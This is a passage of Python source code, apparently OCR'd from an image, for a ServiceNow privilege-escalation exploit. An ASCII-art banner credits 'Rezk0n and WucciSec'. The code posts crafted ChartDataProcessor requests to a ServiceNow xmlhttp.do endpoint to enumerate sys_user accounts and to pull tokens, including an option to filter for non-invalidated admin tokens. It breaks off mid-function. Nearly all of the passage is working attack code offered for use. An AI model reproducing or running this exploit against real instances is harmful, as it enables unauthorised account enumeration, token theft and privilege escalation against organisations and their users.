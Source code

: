 ```python
                ..ooo@@@XXX%%%xx..
            .oo@@XXX%x%xxx..     ` .
          .o@XX%%xx..               ` .
        o@X%..                  ..ooooooo
      .@X%x.                 ..o@@^^   ^^@@o
    .ooo@@@@@@ooo..      ..o@@^          @X%
    o@@^^^     ^^^@@@ooo.oo@@^             %
   xzI    -*--      ^^^o^^        --*-     %
   @@@o     ooooooo^@@^o^@X^@oooooo     .X%x
  I@@@@@@@@@XX%%xx  ( o@o )X%x@ROMBASED@@@X%x
  I@@@@XX%%xx  oo@@@@X% @@X%x   ^^^@@@@@@@X%x
   @X%xx     o@@@@@@@X% @@XX%%x  )    ^^@X%x
    ^   xx o@@@@@@@@Xx  ^ @XX%%x    xxx
          o@@^^^ooo I^^ I^o ooo   .  x
          oo @^ IX      I   ^X  @^ oo
          IX     U  .        V     IX
           V     .           .     V  

   .-~*´¨¯¨`*·~-.,-(Account Now)-,.-~*´¨¯¨`*·~-. 
       Privilege Escalation by Rezk0n and WucciSec
       greets to Wireghoul, GmP, punk_fairybread, & d4rkt1d3 
      '''
    print(banner)

target = "https://<ServiceNow_Instance>:443/xmlhttp.do"
cookies = {"BIGipServerpool_<instancename>": "", "JSESSIONID": "", "__CJ_g_startTime": "%%22", "glide_mfa_remembered_browser": "", "glide_session_store": "", "glide_user_activity": "", "glide_user_route": ""}
headers = {"User-Agent": "", "Accept-Encoding": "gzip, deflate", "Accept": "*/*", "Connection": "close", "X-Usertoken": "", "Origin": "", "Sec-Fetch-Dest": "empty", "Sec-Fetch-Mode": "cors", "Sec-Fetch-Site": "same-origin", "Referer": "", "Te": "trailers", "Content-Type": "application/x-www-form-urlencoded"}

def get_users(xrange):
    session = requests.session()
    post_data = '{"page_num":"%s","series":[{"table": "sys_user","groupby":"user_name",' \
                    '"filter":"","plot_type":"horizontal_bar"}]}' % (xrange)
    payload = {"sysparm_request_params": post_data, "sysparm_processor": "ChartDataProcessor"}
    json_response = session.post(target, headers=headers, cookies=cookies, data=payload,
                                     proxies=proxies, verify=False)
    tree = ET.fromstring(json_response.text)
    notags = ET.tostring(tree, encoding='utf8', method='text')
    json_data = json.loads(notags)
    a = json_data['CHART_DATA']
    b = json.loads(a)['series']
    for i in b:
        arr = i['aggregate_query']
        c = i['aggregate_query']
        print(c)
        if len(c) == 0:
            exit(1)

def retrieve_tokens(table, groupby, name, admin_filter):
    session = requests.session()
    if not admin_filter:
        post_data = '{"page_num":"0","series":[{"table": "%s","groupby":"%s",' \
                    '"filter":"nameCONTAINS%s","plot_type":"horizontal_bar"}]}' % (table, groupby, name)
    else:
        post_data = '{"page_num":"0","series":[{"table": "%s","groupby":"%s",' \
               '"filter":"nameCONTAINS%s^invalidatedISNULL","plot_type":"horizontal_bar"}]}' % (
                   table, groupby, name)
    payload = {
```
